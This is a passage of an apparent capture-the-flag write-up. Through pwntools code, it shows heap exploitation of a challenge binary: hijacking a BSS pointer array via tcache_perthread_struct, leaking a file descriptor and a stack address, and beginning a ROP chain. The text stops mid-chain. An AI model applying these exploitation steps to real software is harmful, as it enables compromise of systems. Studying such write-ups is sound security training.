 The binary keeps track of the allocated buffers in an array of pointers. This array is located in the BSS section of the binary. If I control this array, I gain arbitrary read/write access wherever I want.  
To achieve this, I reuse the chunk I have allocated in *tcache_perthread_struct*. I place a pointer to this array and allocate it.  
```py
storage_array = text_base + (0x555555603060 - 0x555555400000)
print("[i] Strorage:", hex(storage_array))

payload  = p64(0) 
payload += p64(5)
payload  = p64(6) * 16
payload += p64(storage_array)

write(3, p64(0))

free(1)
write(1, payload)

create(0x98)
```
Having control over this array allows me to read/write whatever I want, wherever I want. This means I can now read the file descriptor for flag.txt in the heap, overwrite this FD. Then I obtain a stack leak by reading environ. I write a ROP chain in the main RIP and execute it, ending the program.  
```py
fd_addr = p64(heap + 0x1270)

payload  = fd_addr
payload += p64(libc.sym.environ) 
payload += p64(storage_array) * 2

write(4, payload)

read_flag(1)
p.recvline()
p.recvline()
fd = u64(p.recvline().strip().ljust(8, b'\x00')) 
print("[i] FD:", hex(fd))

write(1, p64(0xdeadbeef))

read_flag(2)
p.recvline()
p.recvline()
stack = u64(p.recv(6).ljust(8, b'\x00')) - (0x7fffffffdcd8 - 0x7fffffffdbe8) - 8
print("[i] Stack:", hex(stack))

payload  = p64(stack) * 4

write(4, payload)

rop_libc = ROP(libc)
pop_rdi  = p64(rop_libc.find_gadget(['pop rdi', 'ret'])[0])
pop_rsi  = p64(rop_libc.find_gadget(['pop rsi', 'ret'])[0])
pop_rdx  = p64(rop_libc.find_gadget(['pop rdx', 'ret'])[0])
binSh    = p64(next(libc.search(b"/bin/sh")))

fd_addr = p64(heap + 0x1270 - 0x68)
writable_addr = p64(heap + 0x2000)

payload  = p64(0)
payload += pop_rdi
payload += p64(fd)
payload += pop_rsi
```